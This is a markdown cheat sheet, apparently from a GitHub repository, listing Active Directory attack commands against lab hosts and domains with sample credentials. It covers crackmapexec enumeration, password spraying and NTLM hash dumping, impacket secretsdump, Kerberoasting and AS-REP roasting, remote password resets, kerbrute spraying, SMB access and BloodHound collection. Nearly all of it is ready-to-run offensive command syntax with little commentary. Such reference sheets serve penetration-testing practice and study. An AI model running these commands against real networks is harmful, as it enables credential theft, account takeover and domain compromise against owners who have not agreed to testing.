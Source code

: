 
# AD_commands



### `crackmapexec`

enumerate the `smb` shares
```
crackmapexec smb 10.10.113.103 -u 'anonymous' -p '' --shares
```
enumerate the users
```bash
crackmapexec smb thm.corp -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
spraying passwords among users
```bash
crackmapexec smb <target-ip> -u users.txt -p passwords.txt --spray
```
dump `NTLM` hashes
```bash
crackmapexec smb 192.168.1.0/24 -u admin -p password123 --ntlm > hash
```
List all users in a domain
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --users > users
```
List all groups
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --groups > groups
```

---

### `impacket`

### **Authentication & Password Dumping**

`secretsdump` : Extracts credentials, including `NTLM` hashes, from Windows systems via various techniques.
```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.217.111
```

Get `SPNs` : Service Principal Names `(SPNs)` that can be used for `Kerberos` authentication attacks `(Kerberoasting)`.
```bash
impacket-GetUserSPNs -request lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

`lookupsid`
This tool queries a remote machine for information about SIDs. It can enumerate domain user and group information by querying the `Security Account Manager` (SAM) database over the `SMB` protocol.
```bash
impacket-lookupsid anonymous@10.10.12.26 -no-pass -domain-sids
```

`GetNPUsers` : `ASREP` Roasting.

When you use the **`GetNPUsers.py`** tool from `Impacket` to dump users with the **"Do not require `Kerberos preauthentication`** option enabled, the output typically provides the following:
1. **Usernames**: A list of usernames that have the `preauthentication` requirement disabled.
2. **`Kerberos AS-REQ` Hashes**: If the user has `preauthentication` disabled, the tool retrieves the `Kerberos AS-REQ` hash (Ticket Granting Ticket Request). This hash can be cracked offline to retrieve the user's `plaintext` password using tools like **`hashcat`**.

get a specific format of specific `IP` of specific domain
```bash
impacket-GetNPUsers -request -format john  lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

just the domain
```bash
impacket-GetNPUsers thm.corp/TABATHA_BRITT
```

from users list
```bash
impacket-GetNPUsers the.corp/ -dc-ip 10.10.42.254 -usersfile users -format john -outputfile hash -no-pass -request
```

`smbpasswd` :
The **`impacket-smbpasswd`** tool is part of the` Impacket` suite, used to change or reset a user's password on a remote `SMB` (Windows) system via the **`SAMR`** (Security Account Manager Remote) protocol.

```bash
impacket-smbpasswd DOMAIN/john.doe:oldpassword@192.168.1.10 -newpass NewPassword123!
```

---

### `kerbrute`

This command attempts to enumerate valid usernames from a provided list.

userenum
```bash
kerbrute userenum -d the.corp -dc 10.10.42.254 users
```

`passwordspray`

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -U admin passwords
```
- -d the.corp : Specifies the domain name. 
- -dc 10.10.42.254 : The IP address of the Domain Controller. 
- -U admin : The username to brute-force. passwords.txt : The file containing the list of passwords to try

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -P "Password123" users
```

---

### `SMB`

List the shares
```bash
smbclient -L //192.168.1.10 -U username
```
Get into it
```bash
smbclient //192.168.1.10/shared_folder -U username
```

---


### bloodhound
#### Neo4j
```bash
sudo neo4j console
```

#### bloodhound
```bash
sudo bloodhound --no-sandbox
```
#### bloodhound-python
```bash
bloodhound-python -ns 10.10.149.218 --dns-tcp -d THM.CORP -u 'automate' -p 'Passw0rd1' -c All --zip
```


---


